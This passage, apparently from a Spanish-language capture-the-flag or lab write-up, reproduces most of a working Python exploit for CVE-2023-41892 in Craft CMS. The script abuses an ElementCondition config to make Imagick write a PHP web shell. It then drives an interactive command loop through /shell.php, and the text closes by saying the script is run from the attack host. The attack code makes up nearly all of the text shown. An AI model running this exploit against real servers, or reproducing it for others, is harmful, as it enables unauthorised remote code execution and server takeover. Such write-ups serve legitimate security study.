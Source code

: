 ```
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})    

def shell(cmd):
    response = requests.get(url + "/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if upload_tmp_dir == "no value" else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)
```

### Explotación

Copiamos el script en nuestro host de ataque y lo ejecutamos:

![](../../../Imágenes/image-18%202.png)
